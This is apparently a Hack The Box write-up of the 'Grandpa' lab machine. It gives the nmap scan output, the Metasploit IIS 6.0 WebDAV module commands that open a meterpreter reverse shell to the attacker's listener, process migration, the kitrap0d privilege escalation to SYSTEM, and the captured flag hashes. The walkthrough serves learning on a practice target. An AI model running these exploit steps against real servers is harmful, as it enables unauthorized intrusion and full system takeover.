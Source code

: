 # Grandpa

## IP

> 10.10.10.14
## nmap Scan

```
nmap -T4 -A 10.10.10.14 -Pn
```

```a
Nmap scan report for 10.10.10.14
Host is up (0.12s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Wed, 04 Aug 2021 04:18:02 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows XP SP2 or SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   71.66 ms  10.10.16.1
2   106.62 ms 10.10.10.14
```

## Open Ports
       
>80/tcp open  http    Microsoft IIS httpd 6.0

HTTP

## HTTP

http://10.10.10.14/

The server is using " Microsoft IIS httpd 6.0" so I searched online for exploits and found this [rapid7 link](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl/)

I followed the steps and I we got a meterpreter shell! But I cannot do anything, a lot of access denied :(

```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set rhosts 10.10.10.14
set lhost tun0
```

I also tried using the suggester and all the options got access denied

> [+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

The problem was that we were in a folder with no System Access

Locating a better folder

```ps```
![Image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Hack%20The%20Box/Grandpa/Pasted%20image%2020210804003440.png)

We need to migrate to a session with Network Service

```migrate 1828```

```getuid```

>Server username: NT AUTHORITY\NETWORK SERVICE

Now we are an user on the machine, but still not System.... Lets try the suggester again 

```
use exploit/windows/local/ms10_015_kitrap0d
set session 1
set lhost tun0
run
```

We are System!!!

### Finding user.txt

```
cd c:\\"Documents and Settings"\\Harry\\Desktop
cat user.txt
```

> bdff5ec67c3cff017f2bedc146a5d869

### Finding root.txt

```
cd c:\\"Documents and Settings"\\Administrator\\Desktop
cat root.txt
```

> 9359e905a2c35f861f6a57cecf28bb7b
